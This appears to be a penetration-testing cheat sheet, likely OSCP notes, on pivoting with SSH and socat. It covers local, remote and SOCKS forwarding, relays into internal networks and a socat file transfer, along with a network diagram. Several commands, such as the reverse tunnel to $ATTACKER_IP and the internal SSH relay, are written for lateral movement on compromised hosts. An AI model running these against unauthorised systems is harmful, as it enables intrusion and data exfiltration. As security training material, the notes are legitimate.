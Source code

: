 Port forwarding from $TARGET_IP to localhost with SSH
---
```bash
ssh -N -L $LOCAL_PORT:localhost:$PORT $USER@$TARGET_IP
```

```bash
sshpass -p $PASSWORD ssh $USER@$TARGET_IP -L $PORT:127.0.0.1:$PORT
```

or run in background with -f option

```bash
ssh -N -f -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

Forward port from remote machine to local machine:

```bash
service ssh start
```

then on remote machine

```bash
ssh -N -R $REMOTE_PORT:localhost:$PORT $USER@$ATTACKER_IP
```

Proxy on localhost:9090 using SSH and credentials:
(WARNING: Proxy is very unstable if it cannot resolve a host, e.g. http page includes)
```bash
#socks5, localhost:9090 in FoxyProxy
ssh -D 9090 $USER@$TARGET_IP
```
OSCP - from first server > second server > third server < from second to first
---
expose smb shares on 3rd server
```bash
ssh -N -L 0.0.0.0:4455:$THIRD_SERVER_IP:445 $USER@$SECONDARY_SERVER_IP
```
Forward local port to target IP with SOCAT
---
```bash
socat TCP-LISTEN:139,reuseaddr,fork TCP:$TARGET_IP:$PORT &
```

OSCP socat
---
#socat #pivot #port-forwarding

forward port 22 on internal/unreachable to attacker box to owned box port 2222

```bash
socat -ddd TCP-LISTEN:2222,fork TCP:$INTERNAL_IP:22
```

![](images/socat-network-pivot.png)

```puml
@startuml
!theme crt-green

nwdiag {
    internet [shape=cloud]
    VPN [type=switch];
    internet -- VPN
    group {
      color="#425444"
      webserver;
      database;
    }
    network VPN_network {
      VPN;
      webserver [address = "192.168.x.101"];
      attacker [address = "192.168.x.102" shape = entity];
      address = "192.168.x.x/24"
    }
    network internal {
        address = "10.x.x.x/24"
        webserver [address = "10.x.x.102" shape = database]
        database [address = "10.x.x.101" shape = collections];
        other_server [address = "10.x.x.103" ];
    }

}
@enduml
```

Using SOCAT to send file:
---
On receiving machine

```bash
socat -u TCP-LISTEN:9876,reuseaddr OPEN:$FILE_OUT,creat
```

and on sending machine

```bash
socat -u FILE:$FILE_OUT TCP:$RECEIVER_IP:9876
```